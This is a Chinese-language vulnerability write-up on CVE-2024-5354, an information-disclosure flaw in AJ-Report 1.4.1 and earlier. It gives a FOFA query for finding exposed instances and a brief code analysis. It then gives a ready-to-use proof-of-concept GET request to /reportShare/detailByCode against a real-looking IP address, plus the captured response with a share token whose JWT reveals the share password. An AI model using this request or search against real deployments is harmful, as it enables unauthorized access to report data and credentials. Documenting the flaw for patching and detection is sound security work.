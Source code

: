 **漏洞名称**

AJ-Report detailByCode 信息泄露漏洞

**漏洞影响**

AJ-Report 1.4.1及以下版本

**漏洞描述**

AJ-Report 版本1.4.1及以下发现了一个被归类为问题的漏洞。该漏洞影响文件/reportShare/detailByCode中的未知代码。对参数shareToken的操纵会导致信息泄露。攻击可以远程发起。已向公众披露了此漏洞的利用方法，可能会被利用。

**FOFA搜索语句**

title="AJ-Report"

**漏洞复现**

com.anjiplus.template.gaea.business.modules.reportshare.controller.ReportShareController#detailByCode

![图片](CVE-2024-5354AJ-Report%20detailByCode%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.assets/640.png)





对象实现类

![图片](CVE-2024-5354AJ-Report%20detailByCode%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.assets/640-1717469838520-1.png)

根据shareCode可以获取到查询信息，然后加密后直接放回

![图片](CVE-2024-5354AJ-Report%20detailByCode%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.assets/640-1717469838520-2.png)

jwt可以直接解密,直接可以获得分享密码。

![图片](CVE-2024-5354AJ-Report%20detailByCode%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.assets/640-1717469838520-3.png)



POC数据包如下，其中shareCode是分享编码

```yaml
GET /reportShare/detailByCode?shareCode=QRK5ta8g HTTP/1.1
Host: 106.15.77.224
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Accept-Encoding: gzip
```

响应内容如下

```yaml

HTTP/1.1 200
Connection: close
Transfer-Encoding: chunked
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: *
Access-Control-Expose-Headers: *
Content-Encoding: gzip
Content-Type: application/json;charset=UTF-8
Date: Mon, 03 Jun 2024 10:36:08 GMT
Server: nginx/1.20.1
Vary: Accept-Encoding

{"code":"200","message":"操作成功","args":null,"ext":null,"data":{"id":15,"createBy":"admin","createTime":"2023-12-29 02:09:44","updateBy":"admin","updateTime":"2023-12-29 02:09:44","version":1,"rowIndex":null,"shareCode":"QRK5ta8g","shareValidType":0,"shareValidTime":"2098-12-31 16:00:00","shareToken":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NNiJ9.eyJzaGFyZUNvZGUiOiJRUks1dGE4ZyIsInJlcG9ydENvZGUiOiJleGNlbF9kZW1vIiwiZXhwIjo0MDcwODgwMDAwLCJpYXQiOjE3MDM4MTU3ODQsInNoYXJlUGFzc3dvcmQiOiIifQ.-gcoMg8BHJTkllhWiJZEMlyQY22-aJSbM_G2VX9INASo","shareUrl":"https://ajreport.beliefteam.cn/index.html#/el/QRK5ta8g","reportCode":"excel_demo","enableFlag":1,"deleteFlag":0,"sharePassword":"","sharePPasswordFlag":false,"reportType":null}}
```

漏洞复现成功